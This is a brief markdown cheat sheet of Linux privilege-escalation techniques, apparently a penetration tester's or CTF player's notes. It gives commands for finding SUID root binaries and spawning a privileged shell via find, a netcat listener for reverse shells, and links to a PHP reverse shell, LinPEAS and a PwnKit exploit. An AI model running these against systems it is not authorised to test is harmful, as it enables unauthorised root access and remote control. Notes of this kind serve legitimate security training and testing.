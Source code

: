 # Privilege Escalation

sudo -l

Shows what the user can run as root without needing the root password

## https://gtfobins.github.io/

## SUID executables
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

find xxx -exec whoami \;

find . -exec /bin/sh -p \; -quit


## Reverse Shell

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 443

## LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## PwnKit
https://github.com/ly4k/PwnKit
